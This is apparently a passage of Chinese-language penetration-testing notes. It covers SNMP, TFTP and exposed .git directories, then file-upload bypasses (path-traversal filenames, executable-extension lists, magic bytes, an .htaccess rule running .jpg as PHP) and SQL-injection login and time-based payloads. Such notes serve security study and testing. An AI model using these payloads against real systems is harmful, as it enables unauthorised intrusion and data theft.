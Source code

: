 #### 配置文件
cat /etc/snmp/snmpd.conf

### TFTP
UPD port 69
使用如下命令连接
tftp $IP

### Git:
如果网页有.git目录，尝试git-dumper所有文件
然后查找凭证 git log, git show, git status等操作
git status找到后可以用git diff --cached filename 来查看文件内容


## 文件上传相关

### 测试能否上传至任意目录
../../../test.txt
r/../../../../test.txt

### 文件拓展名bypass:

PHP: .php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc  
ASP: .asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml  
Jsp: .jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action  
Coldfusion: .cfm, .cfml, .cfc, .dbm  
Flash: .swf  
Perl: .pl, .cgi  
Erlang Yaws Web Server: .yaws  

如果无法bypass，试试magic bytes  
比如PNG的话magic bytes的显示应该是png  
参考wiki https://en.wikipedia.org/wiki/List_of_file_signatures  
GIF的话是  GIF89a;  

### 试着上传特定环境下的config文件  
Apache: .htaccess  
内容可以添加  
AddType application/x-httpd-php .jpg  

IIS: web.config  
IIS的 情况应该是xml文件执行代码  

## SQL Injection
### 登录bypass 
Username=test' OR 1=1; -- // 

### mysql time-based injection
Test' OR sleep(5) -- // 
 